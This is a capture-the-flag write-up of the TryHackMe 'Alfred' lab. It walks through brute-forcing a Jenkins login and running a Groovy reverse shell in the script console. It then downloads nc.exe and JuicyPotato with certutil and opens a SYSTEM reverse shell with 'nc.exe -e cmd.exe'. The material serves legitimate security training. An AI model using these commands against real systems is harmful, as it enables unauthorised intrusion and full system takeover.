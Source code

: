 # Alfred [THM](https://tryhackme.com/room/alfred)
![alfred-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/alfred-01.png)

## Recon

Lets scan the target with `nmap`, however do note that the target doesnt respond to pings,
so we have to add the `-Pn` switch:

`nmap -sC -sV -A -p- -Pn 10.10.80.140 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/nmap-res-02.png)

We have the following: 

+ An IIS server on port 80. 
+ A Jetty server on port 8080.
+ RDP on port 3389. 

Looks like the IIS server on port 80 is a default site, still worth to take a quick look at it, maybe something is hidden there. After that we will focus on the Jetty server. 


### IIS port 80 


Lets open up our browser and navigate towards `http://10.10.80.140/`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-03.png)


Not much to see here, the email address may have revealed a username but nothing else here. 

I ran `ffuf` to try and find hidden content, but that came up empty. Also took a look at the source code, 
nothing there for us. I think its time to move to the Jetty server on port 8080. 



### Jetty port 8080

Lets navigate towards `http://10.10.80.140:8080/`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-04.png)

We are prompted for credentials to login, no sign up link. Lets try brute forcing this, as Jenkins doenst 
impose any restrictions against this attack. 

I capture a login request in Burp, and send it to intruder: 

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/login-req-05.png)


I then used a sniper attack for the admin account with `/usr/share/wordlists/john.txt`: 

![brute-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/brute-06.png)


Lets try to log in with `admin : admin`

![jenkins-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/jenkins-07.png)


Were in! Lets go to the script console: 

`http://10.10.62.32:8080/script`


![script-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/script-08.png)


From here we can use the following Groovy reverse shell:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


Make sure to update your IP and port. 

Then start a listener with:

`nc -lnvp 9009`

Execute the code in the script console:

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/execute-09.png)

This should give us a shell access to the system: 

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/shell-10.png)


## Privilege Escalation


If we take a look at our user's group membership with:

`net user bruce`

![groups-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/groups-11.png)

We can see we are a part of the administrators group. This got me thinking about user privileges. 
So i decided to take a look with:

`whoami /priv`

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/privs-12.png)


we can see we have the `SeImpersonate` privilege, lets try a [potato attack](https://github.com/ohpe/juicy-potato/tree/master).

After you download the attack to your kali machine, make sure to grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to your working directory as well. 

Then start a pyhton web server with:

`python3 -m http.server 80`

Then, on the target cd into bruce's home directory and download both `nc.exe` and `JuicyPotato.exe` with:

`certutil -urlcache -f http://kali-ip/nc.exe nc.exe`

`certutil -urlcache -f hrrp://kali-ip/Juicypotato.exe potato.exe`


Start the listener on yout kali with:

`nc -lnvp 9001`

And execute the following on the target:

`potato.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c c:\Users\bruce\nc.exe -e cmd.exe kali-ip 9001" -t *`


This should give you a shell as the system:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/root-13.png)


